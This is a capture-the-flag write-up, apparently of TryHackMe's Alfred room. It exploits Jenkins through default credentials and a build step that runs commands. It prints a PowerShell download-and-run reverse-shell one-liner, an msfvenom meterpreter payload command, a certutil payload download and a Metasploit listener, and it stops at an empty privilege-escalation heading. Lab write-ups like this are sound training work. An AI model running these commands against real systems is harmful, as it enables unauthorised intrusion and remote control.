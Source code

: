 
Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

---

We will be exploiting this box today. According to the brief overview this is a windows application and it is recommended that we use the [Nishang](https://github.com/samratashok/nishang) project to gain initial access. Also they specified that we use this [specific script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

# Initial Access
## How many ports are open? (TCP only)

### Enumeration

#### nmap

```bash
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap -v 10.10.34.156 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-12 07:56 +04
Initiating Parallel DNS resolution of 1 host. at 07:56
Completed Parallel DNS resolution of 1 host. at 07:56, 0.11s elapsed
Initiating SYN Stealth Scan at 07:56
Scanning 10.10.34.156 [1000 ports]
Discovered open port 80/tcp on 10.10.34.156
Discovered open port 8080/tcp on 10.10.34.156
Discovered open port 3389/tcp on 10.10.34.156
Completed SYN Stealth Scan at 07:56, 17.19s elapsed (1000 total ports)
Nmap scan report for 10.10.34.156
Host is up (0.25s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

There are 3 open ports from the Nmap scan above. Lets explore the webservers on port 80 and port 8080.

## What is the username and password for the login panel?

### Webserver Enumeration

Viewing the webserver on port 80:
![[Pasted image 20251013214110.png]]

Viewing the webserver on port 8080:
![[Pasted image 20251013214126.png]]
So there are two webservers, one is a website hosted claiming that Bruce Wayne is dead and there is an address specified:

```bash
alfred@wayneenterprises.com
```

The other one seems to be access to the Jenkins platform with a username and password field.

### Default Credentials
1. Lets try using admin:admin on the webserver login
2. It WORKED
![[Pasted image 20251013214248.png]]

## What is the User.txt flag?

We get a hint of how to continue exploiting this room

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server
### Finding the feature that allows for code execution

1. Navigate to the following: http://10.10.206.196:8080/job/project/configure
![[Pasted image 20251013215624.png]]

2. Once we put the code in side the code block we go back to the page and press "Build Now"
![[Pasted image 20251013215723.png]]
### Download the Nishang Script 
1. Run the following
```shell
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
2. Start our webserver on out attacker machine with the following
```bash
python -m http.server 8000
```

### Exploit the command injection vulnerability
We can now exploit the command injection vulnerability in the vulnerable part of the application to get a reverse shell by the command below

```shell
powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port
```

replace http://your-ip:your-port/Invoke-PowerShellTcp.ps1 with the address obtained from your updog webserver

```powershell
powershell iex (New-Object  Net.WebClient).DownloadString('http://10.9.0.78:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress 10.9.0.78 -Port 4444
```

Copy the above command to the configure section as discussed above and when done, apply and save it, then press the build now button and now we should have a netcat shell activated back on our attacker machine

![[Pasted image 20251013220253.png]]

lets find the user.txt file now

Use the following to quickly find a text file using powershell query
```shell
Get-ChildItem -Path C:\ -Filter "user.txt" -Recurse -ErrorAction SilentlyContinue
```
![[Pasted image 20251013220613.png]]
### Read the file once found

```powershell
Get-Content C:\Users\bill\Desktop\user.txt
# or
type C:\Users\bill\Desktop\user.txt
```
![[Pasted image 20251013220646.png]]

# Switching Shells

Time to upgrade our shells from a simple netcat shell to a meterpreter shell
## Generate the MSFVenom Payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.9.0.78 LPORT=9090 -f exe -o SHELL.exe
```
## Download the payload on the webserver 
1. We already have our python server running
2. Lets download it from our attacker machine onto the webserver using the below command

```shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.0.75:8000/shell_main.exe','shell_main_.exe')"
```

![[Pasted image 20251013221421.png]]

The above method was giving issues, so i tried using: Certutil
```
certutil -urlcache -f http://10.9.0.78:8000/SHELL.exe SHELL.exe
```

![[Pasted image 20251013224956.png]]

Certutil seems to have worked~~

---
## Setup a Meterpreter Listener 
```
msfconsole -q -x "use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.9.0.78 set 9090 listening-port run"
```
![[Pasted image 20251013222045.png]]

## Execute the payload on the webserver
use the following command in the shell code on the webserver
```
Start-Process "shell_main.exe"
```

OR 

```bash
.\SHELL.exe
```

## Shell obtained
![[Pasted image 20251013225732.png]]

# Priv Esc


